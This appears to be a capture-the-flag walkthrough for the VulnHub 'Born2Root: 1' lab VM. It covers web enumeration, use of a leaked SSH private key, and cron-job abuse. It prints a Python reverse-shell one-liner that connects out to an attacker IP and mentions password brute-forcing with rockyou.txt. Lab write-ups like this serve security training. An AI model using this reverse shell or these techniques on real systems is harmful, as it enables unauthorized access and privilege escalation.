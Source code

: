 # Born2Root: 1

## 1.Get VM IP

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3d1116fe-6019-4783-8339-8fbc26286343)

The IP address is `192.168.56.109`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/85cd869d-e904-4ad6-b19b-ec9b4fc7ade4)

So, let's check the webpage first :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59336175-e076-4ad0-be39-cc47c08d9d88)

there afew usernames here : 

- martin
- hadi
- jimmy

write them down and try to fuzz the web application :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ffdfd581-84fc-4476-8bc8-925293af35eb)

we found several directories, first go to `/icons` and there are a lot of files here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2501949e-23dc-4baa-888c-6ee000056202)

## 3.Gaining Shell

Check the file named `VDSoyuAXiO.txt` and you see a SSH private key here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fc3cea2-3a53-49fe-91eb-95976e128380)

we can now check which user does this private key belongs to, i try user `martin` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/726b9871-be30-4f9e-ac46-ab00b27ca1a4)

and for secret password just use a blank password.

## 4.Privilege Escalation 1 (Jimmy)

Check crontab :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/83620935-2f64-4113-9402-c0c9016a627d)

the file `sekurity.py` has jimmy permissions and there are no `sekurity.py` in `/tmp` so we need to create one

and put a reverse shell in it :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/57fb2b39-c6cc-4e35-b08f-bcdce6e93eac)

## 5.Privilege Escalation 2 (root)

If you see the home page of user jimmy, there is a file called `networker` and when execurting it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a01a92d0-0cdf-4713-a188-6a77a97788f8)

this binary is a rabbit hole and has nothing to do with, since we logged in as 2 users out of 3 possible users

now the only option is to brute force the last user password, user `hadi`, we can generate a new wordlist or use `rockyou.txt`
















